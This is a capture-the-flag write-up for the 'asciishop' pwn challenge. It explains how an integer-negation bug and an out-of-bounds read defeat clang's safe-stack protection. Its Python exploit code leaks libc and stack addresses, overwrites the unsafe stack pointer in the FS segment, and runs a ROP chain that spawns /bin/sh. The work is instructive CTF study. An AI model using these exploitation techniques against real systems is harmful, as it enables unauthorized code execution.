



# asciishop

Past weekend Facebook CTF had a lot of funny and tricky challenges. However, most of them weren't not so hard and interesting. asciishop, instead, was a challenge that brought something that is not so usual to see in standard C/C++ Linux pwns.

The service is a Ascii file manager in which you can upload, download, delete and customize Ascii images of at most 1024 bytes. Each image is stored in a mmapped page and each page can store up to 16 images. The maximum number of pages is 32, so it is possibile to store up to 512 images. Ascii images have also metadata which are the following.

```C
struct ascii_image
{
    char magic_number;                               
    int cols;
    int rows;
    int offset;
    char image[1024];
};
```
Moreover, an ascii image is saved as a "file" which has the following metadata.

```C
struct ascii_file
{
    char id[8];                               
    bool in_use;
    struct ascii_image image;
};
```
The overall bytes of an ascii file are 1052.

The binary has the following security options.
* Arch:     amd64-64-little
* RELRO:    Full RELRO
* Stack:    No canary found
* NX:       NX enabled
* PIE:      PIE enabled
There's no canary because it's compiled with clang with the `-fsanitize=safe-stack` option. With this option each buffer on the stack will be moved in a mmapped memory region under the pages of the libc. Thus, if a buffer overflow occurs, it will overflow over the code of the libc (which is not writable) generating an exception.


It's worth to see how it works in the only stack buffer used by the application. The add filter option read a filter of 1024 bytes which is or-ed with an uploaded image. Unfortunately this function doesn't work because a wrong return value, but still allows us to fill the buffer with a filter. The function prologue is the following.

```assembly
sub_12d50:
        push    rbp
        mov     rbp, rsp
        sub     rsp, 30h
        mov     rax, cs:off_21BFB8
        mov     rcx, fs:[rax]
        mov     rdx, rcx
        add     rdx, 0FFFFFFFFFFFFFC00h
        mov     fs:[rax], rdx
        mov     [rbp+var_20], rcx
```

`mov     rax, cs:off_21BFB8` is basically `mov     rax, [rip + 0x21BFB8]` that is a pointer to got variable called `__safestack_unsafe_stack_ptr` which value is -8 (0xFFFFFFFFFFFFFFF8). The next instruction instead, take the qword from `fs[-8]` and put it inside `rcx`. The value contained in `rcx` is the base of the libc as we said before. Then the value is copied in `rdx` and its value is deacreased of 1024 (like the stack) for the buffer of the filter. Finally, the new value of `rdx` is moved to `fs[-8]` and the old value, contained in `rcx` in saved on the stack.

At the end of the function, the value of `fs[-8]` is restored to its old value.

```assembly
...
         mov     rax, cs:off_21BFB8
         mov     rcx, [rbp+var_20]
         mov     fs:[rax], rcx
         add     rsp, 30h
         pop     rbp
         retn
```

Beautiful, all clear, it's basically a stack in another memory region for preventing exploitable buffer overflows. The only question is: "What the fuck is `fs`?"

FS is a segment register which is allocated in a memory page of the program. It is used to store important variables like the `canary`, the `__safestack_unsafe_stack_ptr`... It's not hard to spot its location. If you run `strace` of the binary you will see a line like:

```
arch_prctl(ARCH_SET_FS, 0x7f156813b180) = 0
```


In the picture above is shown the mapping of the process along with the position of FS and the first two pages for the ascii images. As you can see the mapping is moving towards the page of FS and, if more ascii are uploaded, some pages will be allocated under the page of FS.

Untill now, we didn't see anything that allow us to pwn it but something useful for what is coming now.

## Vulnerabilities

There are basically two exploitable vulnerabilities. The first one is in the check performed over the metadata of the ascii image.



If one of the metadata is negative, it will be negated and checked if is lower than a certain value. Howerver, it's not possible to negate the lowest value of an integer (0x80000000), because it's negated would require an extra bit. Thus, the value of the negation will result again in 0x80000000 which is again a negative number. Afterwards, we can have an image with cols and rows from 0 to 32 or 0x80000000, and an offset from 0 to 1024 or 0x80000000.

The second vulnerability is in the function that show the grid of an image. If you upload two adiacents ascii images in memory, with the first one with 32 columns and a large enough offset, the grid of the first image will be the remaining content of the first image plus the content of the second image along with the metadata.

As you can imagine the first vulnerabilty will allows us to write somewhere and the second one to read somewhere.

## Exploitation

The idea is to read and write something in the FS memory region. We still need something more.

There's another function that allows us to change a pixel in an ascii image providing the coordinates and the new pixel. Some checks are performed in order to prevent out of bound writes.



Here i spent a lot of time to figure out a way to get an out of bounds write and i got it with an ascii image with cols, rows and offset equal to 0x80000000. Then, to bypass the third check i used a 0.

```
0 = 0 * 0x80000000
0 = 0 / 0x80000000
```

Bypassing the fourth check is easy. Any number plus zero is equal to itself.
The fifth check doesn't depend from the coordinates but from the image metadata and with the image i used is already bypassed.

```
positive_number + 0x80000000 >= 0x80000000
```

And the last one too given that cols * rows is a huge positive number which is truncated to 32 bit and gives 0. Thus,

```
positive_number + 0x80000000 < 0
```

is always true.

Moreover, the coordinate is casted to an unsigned it, so we can change any value starting from the ascii image up to the 0xFFFF-th byte.

## The exploit

The first step was to create enough ascii images in order to have a page below the FS page.

```python
for i in range(5):
        for j in range(16):
            uploadAscii(str(32 * i + j).rjust(7, '0'), image)
```

Then, i created one image to write and one image to read. The image to write was the one with cols, rows and offset equal to 0x80000000. The image to read was a standard image.

```python
uploadAscii('WRITE00', image, 0x80000000, 0x80000000, 0x80000000)
uploadAscii('READ000', image)
```

In order to leak the libc base address i just changed the offset of the image used to read with a value that is the difference between `fs[-8]` and the address of the image used to read.

```python
moveToAsciiShop()
touchupAscii('WRITE00')
changePixel(OFFSET_OFFSET, 0, chr(OFFSET_LEAK_LIBC & 0xFF))
changePixel(OFFSET_OFFSET + 1, 0, chr((OFFSET_LEAK_LIBC >> 8) & 0xFF))
quitTouchup()
touchupAscii('READ000')
leak = printGrid()
leak = leak.split(' 0 |')[1].split('\n')[0].replace('ffffff', '').replace('   ', ' \x00').replace('  ', ' ')
leak = leak.split(' ')[1:]
libc_base = 0
for i in range(6):
    if len(leak[i]) == 2:
        libc_base += int(leak[i], 16) << (8 * i)
    else:
        libc_base += ord(leak[i]) << (8 * i)
print 'LIBC base: ' + hex(libc_base)
quitTouchup()
```

Libc leak was not enough given that i could not change the program flow with hooks. Thus, i looked around that page and found a very reliable leak of the stack. With some changes to the leak i figured out an address that if it gets decreased of 1024 it points closer to the return address of the ascii shop submenu.

```python
touchupAscii('WRITE00')
changePixel(OFFSET_OFFSET, 0, chr(OFFSET_LEAK_STACK & 0xFF))
changePixel(OFFSET_OFFSET + 1, 0, chr((OFFSET_LEAK_STACK >> 8) & 0xFF))
quitTouchup()
touchupAscii('READ000')
leak = printGrid()
leak = leak.split(' 0 |')[1].split('\n')[0].replace('ffffff', '').replace('   ', ' \x00').replace('  ', ' ')
leak = leak.split(' ')[1:]
stack_position = 0
for i in range(6):
    if len(leak[i]) == 2:
        stack_position += int(leak[i], 16) << (8 * i)
    else:
        stack_position += ord(leak[i]) << (8 * i)
stack_position = stack_position -0x70 + 0x400 
print 'Stack position: ' + hex(stack_position)
quitTouchup()
```

Changed the value of `fs[-8]` to the value obtained before.

```python
touchupAscii('WRITE00')
for i in range(6):
    changePixel(OFFSET_STACK_PTR + i, 0, chr(((stack_position) >> (8 * i)) & 0xFF))
quitTouchup()
```

And finally i called the filter function to ROP on the stack. The ROP used gadget from the libc to spawn `/bin/sh` with an `execve` syscall.

```python
# ROP
filter_ascii = p64(0x0)
filter_ascii += p64(libc_base + POP_RDI)
filter_ascii += p64(libc_base + BIN_SH)
filter_ascii += p64(libc_base + POP_RSI)
filter_ascii += p64(0x0)
filter_ascii += p64(libc_base + POP_RDX)
filter_ascii += p64(0x0)
filter_ascii += p64(libc_base + POP_RAX)
filter_ascii += p64(0x3b)
filter_ascii += p64(libc_base + SYSCALL)
filter_ascii = filter_ascii.ljust(0x400, '\x00')

addFilter('READ000', filter_ascii)

quitAsciiShop()
```

Note: sometimes the leak is not reliable because non alphanumeric characters are printed as raw bytes and if a byte ends with four zeros (0b0000xxxx) is not possible to understand if the value printed is the ascii character or just the byte number. For instance, the raw byte 0x09 is not distinguishable from the raw byte 0x39 which is the ascii character 9.

## Exploiting the remote server

The mapping of the server was different and i figured out immediately that the page below the FS page was the first page (page in position 0). Thus, i just remove the initial part which allocates the pages.

## Flag

`fb{s4fe_4nd_50und_fr0m_5ma5hing}`

Note: i wrote it in 2 hours without reviewing it. Don't judge my english!